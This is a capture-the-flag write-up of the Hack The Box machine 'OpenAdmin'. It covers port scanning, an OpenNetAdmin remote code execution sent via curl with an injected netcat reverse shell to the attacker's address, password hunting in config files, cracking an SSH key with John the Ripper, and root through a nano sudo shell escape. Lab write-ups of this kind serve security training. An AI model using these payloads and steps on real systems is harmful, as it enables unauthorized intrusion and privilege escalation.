

## Overview

OpenAdmin is an Ubuntu box running an apache webserver. It hosts various example sites and OpenNetAdmin that was vulnerable to an unauthenticated remote code execution which I used to create a reverse shell to get initial foothold. Some enumeration of the /var/www folder revealed a password which was used to ssh into the target as the user jimmy. I discovered a webserver that was only accessible internally that was hosting files out of /var/www/internal. This folder contained a php file with a hardcoded password hash which I able to easily lookup with an internet search. I created a local port forward to my box where I was able to access the website and log in. The page displayed an encrypted rsa private key which I cracked with john the ripper to gain the password. With the private key I successfully logged in with joanna who was able to run sudo with no password, due to a vulnerability in nano I was able escalate my privileges to root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS 
* OpenNetAdmin v18.1.1

**Port Scan**

```
nmap -sT -p- -v -Pn 10.10.10.171 -oN /home/kali/boxes/openadmin
```

* 22/tcp - ssh
* 80/tcp - http - /ona, OneNetAdmin v18.1.1

**Directory/File Scan**

```
gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t 40
```

* /music
* /index.html
* /artwork
* /sierra
* /server-status
* /ona (found manually)

## Steps (user)

Browsing to http://10.10.10.171 shows the default Apache2 page. 



After manually reveiwing the results from the gobuster scan it looked this box was hosting various example webpages. Clicking Login on http://10.10.10.171/music redirected me to http://10.10.10.171/ona which brought me to an OpenNetAdmin page.



I did an internet search and found that the default credentials for OpenNetAdmin were admin:admin. I tried those on the target and successfully logged in as the admin account. Once logged in I went to menu | ona | about and noted the version.



Doing a search in searchsploit for opennetadmin showed 3 results, two of these were for the same version as the target v18.1.1, and one was metasploit so I went with 47691.



Reviewing the exploit shows a pretty simple command shell uring curl to send a post request.

```
searchsploit -x 47691
```



The exploit creates a cmd shell but it's pretty limiting so I copied the string from the exploit and in between **ip%3D%#E** and **&xajaxargs[]=ping"** I added a bash command that creates a reverse shell (url encoded). I started up a netcat listner on my box (nc -lvnp 4200) and ran the command.

```
curl -S -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.26+4200+>/tmp/z&xajaxargs[]=ping" "http://10.10
.10.171/ona/"
```

I received a callback and shell as www-data



After doing some enumeration of the /var/www/ona directory I came across some credentials in a file called database_settings.inc.php in the /var/www/ona/local/config folder - **ona_sys:n1nj4W4rri0R!**

```
<?php                   
$ona_contexts=array (   
  'DEFAULT' =>          
  array (               
    'databases' =>      
    array (             
      0 =>              
      array (           
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),                
    ),                  
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),                    
);          
```
I wasn't able to log into mysql but I was able to login via ssh as jimmy using the n1nj4W4rri0R! password.

> Note: The user flag was not present for this user

In the /var/www/ I found a folder called "internal" that was owned by Jimmy. This folder contained a file called main.php which had some php code that compared the password against a password hash for authentication. 



I did an internet search for the hash and found a [site](https://md5hashing.net) that had hashed it already - **Revealed**



Running netstat showed that the target was listening on an odd port 52846 via the loopback address.



I ran a GET request with curl and confirmed that it was a web server.

```
curl --head http://127.0.0.1:52846
```




I created a local port forward so I could browse to the site from my box.

```
ssh jimmy@10.10.10.171 -p 22 -L52846:127.0.0.1:52846
```

I browsed to http://127.0.0.1:52846 and logged in with **jimmy:Revealed**



After logging in an encrypted RSA private key is displayed on the page along with the text "Don't forget your 'ninja' password"



I copied the private key and converted it to John format 

```
/usr/share/john/ssh2john.py id_rsa_enc  > id_rsa_crack
```

I used John the Ripper and the rockyou wordlist to crack the password and was successful, the password was **bloodninjas**

```
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt
```



I removed the password from id_rsa_enc using the following command, specifying bloodninjas as the password.

```
openssl rsa -in id_esa_enc -out id_rsa
```



I set the appropriate permissions on id_rsa (chmod 600 id_rsa) and was able to log in to with the account "joanna"

```
ssh -i id_rsa joanna@10.10.10.171
```



## Steps (root/system)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that joanna can use nano to open a specific file, /opt/priv with no password.

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.



Looking up nano on [GTFOBins](https://gtfobins.github.io/) shows that there is a shell escape for nano.



```
^R^X then reset; sh 1>&0 2>&0
```

Running 'sudo /bin/nano /opt/priv' and the sequence of commands provided by GTFOBins gave me a root shell.




